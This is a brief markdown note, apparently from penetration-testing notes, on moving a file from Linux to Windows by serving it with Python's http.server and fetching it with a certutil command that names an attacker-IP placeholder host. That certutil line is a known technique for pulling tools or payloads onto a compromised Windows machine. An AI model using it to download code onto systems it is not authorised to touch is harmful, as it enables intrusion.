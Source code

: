 
### How to transfer file from Linux to Windows ?

1. The Linux system can be hosting a file using the `http.server` Python module.

2. The Windows OS can download the file using `certutil`.
```
certutil -urlcache -f http://<attacker-ip>/<filename> <save-as>
```



